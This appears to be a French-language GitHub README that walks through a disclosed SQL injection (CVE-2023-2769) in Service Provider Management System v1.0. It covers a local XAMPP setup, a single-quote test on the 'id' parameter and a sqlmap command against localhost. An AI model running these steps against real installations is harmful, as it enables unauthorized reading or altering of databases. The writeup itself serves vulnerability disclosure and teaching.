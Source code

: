 # Sql-injection
Execution de la vulnérabilité d'injection SQL sur Service Provider Management System v1.0

#### Exploit Title: Service Provider Management System v1.0 - SQL Injection
#### Date: 2023-05-23
####CVE:2023-2769
#### Exploit Author: Ashik Kunjumon
#### Vendor Homepage: https://www.sourcecodester.com/users/lewa
#### Software Link: https://www.sourcecodester.com/php/16501/service-provider-management-system-using-php-and-mysql-source-code-free-download.html
#### Version: 1.0
#### Testé sur: Linux

###1. Description :

Le système de gestion des fournisseurs de services v1.0 permet une injection SQL via le paramètre ID
dans #####/php-spms/?page=services/view&id=2
L'exploitation de ce problème pourrait permettre à un attaquant de compromettre l'application
compromettre l'application, d'accéder à des données ou de les modifier,
ou d'exploiter les dernières vulnérabilités de la base de données sous-jacente.

####Point final : /php-spms/?page=services/view&id=2

####Paramètre vulnérable : id (GET)

###2. Preuve de concept :
###Etape 1- Installation de l’application web vulnérable
Pour cette étape nous essayerons de déployer l’application sur xampp.


On cré une base de donnée portant le nom de #####spms_db
![Capture d’écran du 2023-06-07 12-14-55](https://github.com/rozzario/Sql-injection/assets/36795507/29b5a31f-3d3c-48f8-937c-ca2cf1810f6d)

Puis on importe le contenu de la base de donnée:
![Capture d’écran du 2023-06-07 12-16-15](https://github.com/rozzario/Sql-injection/assets/36795507/65edaaf6-f0e1-4148-a100-bb11a4d76f4c)

Une fois que c’est fait, on déploie l’application en copiant le dossier du site web dans le répertoire htdocs de xampp. On obtient donc ceci:
![Capture d’écran du 2023-06-07 12-18-00](https://github.com/rozzario/Sql-injection/assets/36795507/1391e28f-96d0-413d-849c-15c078e52d51)

###Étape 2 - En visitant l'url :
http://localhost/php-spms/?page=services/view&id=2, il suffit d'ajouter un guillemet simple pour
vérifier l'injection SQL.
![Capture d’écran du 2023-06-07 12-18-53](https://github.com/rozzario/Sql-injection/assets/36795507/7cd464c3-0634-4e6d-8c8b-6a0c8880c245)
![Capture d’écran du 2023-06-07 12-19-24](https://github.com/rozzario/Sql-injection/assets/36795507/62b380b6-18ea-444c-84f4-a921a93210ee)

###Etape 3 - Exécuter sqlmap -u " http://localhost/php-spms/?page=services/view&id=2"
-p id --dbms=mysql
![Capture d’écran du 2023-06-07 12-28-10](https://github.com/rozzario/Sql-injection/assets/36795507/2c9031bf-6a4a-4088-ba69-db88857a0107)
![Capture d’écran du 2023-06-07 12-32-36](https://github.com/rozzario/Sql-injection/assets/36795507/c1bdd34d-ac46-4898-819c-77600e8756e9)



